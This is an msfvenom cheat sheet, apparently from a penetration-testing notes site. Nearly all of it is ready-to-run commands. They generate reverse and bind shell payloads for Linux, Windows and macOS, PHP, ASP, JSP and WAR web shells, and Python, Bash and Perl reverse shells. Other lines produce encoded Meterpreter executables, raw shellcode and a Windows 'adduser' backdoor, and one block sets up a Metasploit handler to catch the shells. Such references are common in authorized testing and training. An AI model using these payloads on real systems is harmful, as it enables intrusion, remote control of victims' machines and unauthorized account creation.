```yaml
---
title: msfvenom
category: cheatsheets
order: 1
---
```



## List payloads
---
```
msfvenom -l
```

## Binaries Payloads
---

#### | Linux Meterpreter Reverse Shell
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf
```
#### | Linux Bind Meterpreter Shell
```
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf
```
#### | Linux Bind Shell
```
msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf
```
#### | Windows Meterpreter Reverse TCP Shell
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```
#### | Windows Reverse TCP Shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe
```
#### | Windows Encoded Meterpreter Windows Reverse Shell
```
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe
```
#### | Mac Reverse Shell
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho
```
#### | Mac Bind Shell
```
msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho
```
# Web Payloads
---
#### | PHP Meterpreter Reverse TCP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php
cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php
```
#### | ASP Meterpreter Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp
```
#### | JSP Java Meterpreter Reverse TCP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp
```
#### | WAR
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war
```
# Scripting Payloads
---
#### | Python Reverse Shell
```
msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py
```
#### | Bash Unix Reverse Shell
```
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
#### | Perl Unix Reverse shell
```
msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl
```

# Shellcode
---

#### | Windows Meterpreter Reverse TCP Shellcode
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
#### | Linux Meterpreter Reverse TCP Shellcode
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
#### | Mac Reverse TCP Shellcode
```
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>
```
#### | Create User
```
msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
```

# Metasploit Handler
---
```
use exploit/multi/handler
set PAYLOAD <Payload name>
Set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
Run
```
